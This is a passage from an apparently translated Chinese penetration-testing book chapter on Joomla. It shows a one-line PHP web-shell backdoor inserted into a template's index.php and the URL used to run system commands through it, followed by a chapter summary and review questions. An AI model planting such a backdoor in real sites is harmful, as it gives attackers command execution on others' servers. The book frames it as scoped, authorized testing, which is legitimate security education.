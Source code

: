 我们点击 index.php 并向文件添加我们自定义的 PHP 一行代码。这将充当后门，并允许我们执行系统级命令：

```
<?php passthru($GET['cmd']); ?>
```

以下截图显示了索引的第一行现在有我们的后门：

![](img/44711f34-0857-42a5-8816-3e4eab8efa0c.png)

保存更改后，我们可以在以下路径浏览我们的后门：

```
domainname.com/<joomla path>/templates/<template name>/index.php?cmd=id
```

以下截图显示我们的命令已成功执行：

[图片]

一旦我们向客户提供了概念验证，Joomla 的利用就结束了。然而，超越正常的利用方法并进入网络是需要在项目启动会议中与客户讨论的事情。作为渗透测试人员，我们必须遵守客户定义的范围。

如果上传了这样的有效负载，仅仅是为了获得概念验证，那么在利用完成后，我们有义务删除这些后门。

# 总结

在本章中，我们学习了 Joomla 的架构及其文件和目录结构。然后，我们进行了侦察过程，并了解了查找 Joomla 实例及其版本号的不同方法。我们还研究了为我们自动化这一过程的工具和脚本。最后，我们深入研究了 Joomla 利用的过程，以及利用如何使用先前发现的公开利用的示例。

在下一章中，我们将学习如何对另一个流行的 CMS——Drupal 进行渗透测试。

# 问题

1.  我可以在任何操作系统上安装 Joomla 吗？

1.  如果现有的 Metasploit 模块无法找到 Joomla 的版本，我可以自己创建 Metasploit 模块吗？

1.  Metasploit 模块无法检测安装的 Joomla 版本。还有其他检测方法吗？

1.  我成功利用 Joomla 上传漏洞上传了一个 shell。有没有可能以隐秘的方式在 CMS 中设置后门？

# 进一步阅读

+   Joomla 中易受攻击的扩展列表可以在[`vel.joomla.org/live-vel`](https://vel.joomla.org/live-vel)找到。

+   有关 Joomla 架构的更多信息可以在[`docs.joomla.org/Archived:CMS_Architecture_in_1.5_and_1.6`](https://docs.joomla.org/Archived:CMS_Architecture_in_1.5_and_1.6)找到。
